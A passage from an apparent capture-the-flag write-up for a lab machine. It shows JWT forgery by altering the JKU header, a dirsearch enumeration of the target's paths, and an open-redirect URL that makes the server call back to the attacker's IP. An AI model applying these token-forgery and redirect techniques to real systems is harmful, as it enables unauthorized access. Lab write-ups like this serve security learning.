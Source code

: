 now modify the JKU, username and the Signature:

![error](/assets/images/unicode/20220506210527.png)

now using that JWT as our new cookie we got this and it didn't even make the request to our side.

![error](/assets/images/unicode/20220506210617.png)

digging more and using dirsearch found :

```bash
308   266B   http://10.10.11.126:80/dashboard    -> REDIRECTS TO: http://10.10.11.126/dashboard/
308   262B   http://10.10.11.126:80/display    -> REDIRECTS TO: http://10.10.11.126/display/
308   258B   http://10.10.11.126:80/error    -> REDIRECTS TO: http://10.10.11.126/error/
308   264B   http://10.10.11.126:80/internal    -> REDIRECTS TO: http://10.10.11.126/internal/
308   258B   http://10.10.11.126:80/login    -> REDIRECTS TO: http://10.10.11.126/login/
308   262B   http://10.10.11.126:80/pricing    -> REDIRECTS TO: http://10.10.11.126/pricing/
308   264B   http://10.10.11.126:80/redirect    -> REDIRECTS TO: http://10.10.11.126/redirect/
308   264B   http://10.10.11.126:80/register    -> REDIRECTS TO: http://10.10.11.126/register/
```

and trying the following it makes the request to our side :

```html
http://10.10.11.126/redirect?url=10.10.16.39
```

![error](/assets/images/unicode/20220506210957.png)
